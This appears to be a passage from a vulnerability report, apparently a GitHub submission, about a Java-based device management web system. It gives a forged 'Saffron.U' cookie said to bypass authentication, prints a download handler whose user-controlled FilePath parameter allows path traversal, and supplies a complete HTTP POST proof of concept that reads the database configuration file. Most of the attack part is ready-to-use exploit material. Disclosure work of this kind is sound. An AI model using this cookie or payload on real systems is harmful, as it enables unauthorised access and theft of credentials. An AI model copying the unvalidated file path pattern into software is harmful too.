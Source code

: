 ```
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
```
<img width="525" height="475" alt="image" src="https://github.com/user-attachments/assets/e6a4be9c-d171-4426-8af6-66be581cb523" />

At this point, we have bypassed the authentication of this system.


### Arbitrary File Download Vulnerability
We found a sink point. The relevant code is as follows:

```java
@RequestMapping(
        params = {"Action=Download"}
    )
    public void download(HttpServletRequest request, HttpServletResponse response) {
        try {
            String path = request.getParameter("FilePath");
            String filePath = request.getSession().getServletContext().getRealPath("/SystemFile" + path);
            File file = new File(filePath);
            int lastIndexOf = path.lastIndexOf("/");
            String name = path.substring(lastIndexOf + 1);
            String fileName = new String(name.getBytes("UTF-8"), "iso-8859-1");
            InputStream ins = new BufferedInputStream(new FileInputStream(file));
            byte[] buffer = new byte[ins.available()];
            ins.read(buffer);
            ins.close();
            response.reset();
            response.addHeader("Content-Disposition", "attachment;filename=" + fileName);
            response.addHeader("Content-Length", "" + file.length());
            OutputStream ous = new BufferedOutputStream(response.getOutputStream());
            response.setContentType("application/octet-stream;charset=UTF-8");
            ous.write(buffer);
            ous.flush();
            ous.close();
        } catch (Exception var12) {
            Exception e = var12;
            CommonFunction.writeExceptionLog("DeviceFileReport", e);
        }

    }
```
The `FilePath` parameter here is user-controllable, making this a typical arbitrary file download vulnerability.

Based on this, we can construct the following Proof of Concept (POC) to read the database configuration file:

```
POST http://ip:port/DeviceFileReport.do?Action=Download HTTP/1.1
Host: ip:port
Content-Length: 48
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
Content-Type: application/x-www-form-urlencoded

FilePath=../../WEB-INF/classes/config.properties
```

<img width="1920" height="846" alt="image" src="https://github.com/user-attachments/assets/8ae1aba5-f254-40eb-a7f2-5860a8f43035" />

Thank you for your review! Wish you all the best!

